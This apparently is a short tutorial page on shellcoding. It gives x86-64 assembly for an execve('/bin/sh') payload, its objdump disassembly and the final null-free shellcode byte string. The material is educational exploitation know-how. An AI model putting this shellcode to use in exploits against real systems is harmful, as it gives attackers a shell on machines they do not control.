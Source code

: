 # Shellcoding

Can be written in C before compiling, or in Assembly.  

Use ASM instructions to set up the stack for your desired actions.  
Compile the program and use `objdump` to pull apart the binary and get the opcodes (shellcode).  

Avoid null bytes, they will likely kill the shellcode execution:  
e.g. use `xor rax, rax` instead of `mov rax, 0`.  

## Example execve("/bin/sh")

```asm
; Compile with "nasm -f elf64 sh.asm -o sh.o"
; Link "ld sh.o -o sh"

section .text
    global _start

_start:
    xor rax, rax;   ; optional if the program the function you are returning from sets RAX to 0
    push rax;   ; Puts a zero on the stack to terminate our /bin/sh string
    xor rsi, rsi;   ; Set RSI to 0
    xor rdx, rdx;   ; Set RDX to 0
    mov rbx, 0x68732f6e69622f2f;    ; Move "//bin/sh" into RBX (2 slashes to completely fill the register)
    push rbx;   ; move "//bin/sh" to the stack
    mov rdi, rsp;   ; Pointer to "//bin/sh" in RDI
    mov al, 0x3b;   ; execve syscall number
    syscall;
```

After compiling and linking, get opcodes with `objdump -d sh` (second column contains your shellcode):  

```bash
bin_sh:     file format elf64-x86-64

Disassembly of section .text:

0000000000401000 <_start>:
  401000:       48 31 c0                xor    %rax,%rax
  401003:       50                      push   %rax
  401004:       48 31 f6                xor    %rsi,%rsi
  401007:       48 31 d2                xor    %rdx,%rdx
  40100a:       48 bb 2f 2f 62 69 6e    movabs $0x68732f6e69622f2f,%rbx
  401011:       2f 73 68 
  401014:       53                      push   %rbx
  401015:       48 89 e7                mov    %rsp,%rdi
  401018:       b0 3b                   mov    $0x3b,%al
  40101a:       0f 05                   syscall
```

Gives the following shellcode:  

`\x48\x31\xc0\x50\x48\x31\xf6\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x48\x89\xe7\xb0\x3b\x0f\x05`  

